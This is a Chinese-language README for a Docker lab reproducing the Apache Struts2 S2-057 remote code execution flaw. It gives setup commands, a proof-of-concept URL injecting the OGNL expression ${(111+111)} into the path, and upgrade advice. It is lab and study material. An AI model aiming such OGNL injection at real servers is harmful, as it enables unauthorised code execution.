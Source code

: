 ## Struts2 远程代码执行漏洞(S2-057)环境

### 漏洞信息

 * [S2-057 公告](https://cwiki.apache.org/confluence/display/WW/S2-057)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_struts2_s2-057
 ```

2. 启动环境

 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-057
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### PoC

> 例如目标地址为：http://127.0.0.1:8080/

访问 `http://127.0.0.1:8080/${(111+111)}/actionChain1.action`

然后 URL 会变为 : `http://127.0.0.1:8080/222/register2.action`, 其中 222 部分为 ognl 表达式 `${(111+111)}` 执行结果。


#### Exp

暂无

### 修复建议

升级Apache struts 至 2.5.17 版本 或者 2.3.35 版本


### 参考链接

* [S2-057 公告](https://cwiki.apache.org/confluence/display/WW/S2-057)
* [【Struts2-代码执行漏洞分析系列】S2-057](https://xz.aliyun.com/t/2618)
